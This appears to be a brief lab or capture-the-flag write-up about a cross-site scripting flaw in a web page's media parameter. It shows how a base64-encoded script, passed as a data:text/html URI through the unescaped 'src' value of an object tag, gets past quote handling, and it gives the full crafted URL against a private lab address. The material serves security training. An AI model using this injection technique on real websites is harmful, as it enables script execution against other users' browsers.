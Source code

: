 # Media

`src` argument inserted directly into `data` field of `object` tag

```html
<object data="http://192.168.56.101/images/nsa_prism.jpg"></object>
```

Injecting html normally won't work because quotation marks are handled properly

It is possible, however, to inject serialized html

```bash
$ echo '<script>alert("WHEE")</script>' | base64
PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ+Cg==
```

This produces a serialized version of the script to be run

Replacing special characters leaves us with `PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ%2BCg%3D%3D`

Setting a few more options to be run allows us to embed any html into the webpage like this

```html
http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ%2BCg%3D%3D
```
